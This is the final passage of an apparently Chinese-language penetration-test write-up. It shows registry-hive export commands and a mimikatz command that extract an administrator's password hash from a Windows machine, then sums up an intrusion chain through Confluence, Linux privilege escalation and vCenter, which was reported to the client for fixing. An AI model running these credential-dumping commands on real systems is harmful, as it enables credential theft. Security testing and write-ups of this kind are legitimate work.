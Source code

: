 当前使用`test`用户登录，只能抓到登录账号的账密`hash`：

![image.png](assets/1698900883-b9c47a0380c9caed36e3844140dd7e9f.png)

但是如果对注册表操作的话，在这里对注册表操作：

```php

reg save HKLM\\SYSTEM system.hiv

reg save HKLM\\SAM sam.hiv

reg save hklm\\security security.hiv

在本地使用mimikatz执行：

mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit
```

![image.png](assets/1698900883-fe3e6abf5bb837f5a8e9bc72b02fe18d.png)

抓到了`admin`用户的`hash`，这就证实了对注册表操作是可以抓到原来用户的账密`hash`的。

### 5.2.2 注册表抓取

![image.png](assets/1698900883-19f997b57ed836103f63c230508ceceb.png)

此时抓到了：

![image.png](assets/1698900883-19a7e5da05a341ca07b3c9af53d99dbf.png)

# 0x06. 总结

漏洞第一时间同步给客户进行了修复。

当前以`confluence`的`web`漏洞，再到`linux`提权，再到`vcenter`的漏洞，再到机器的克隆和`hash`获取等，整个流程非常的漫长，而且磕磕绊绊的地方非常多，当然还有很多没有解决的问题：

-   比如`vcenter`为啥没有添加上用户
-   注册表抓`hash`为啥没有抓到当前登录用户
-   `linux`系统如何抓关键信息等等。。。

后续再慢慢学习吧，东西太多了。
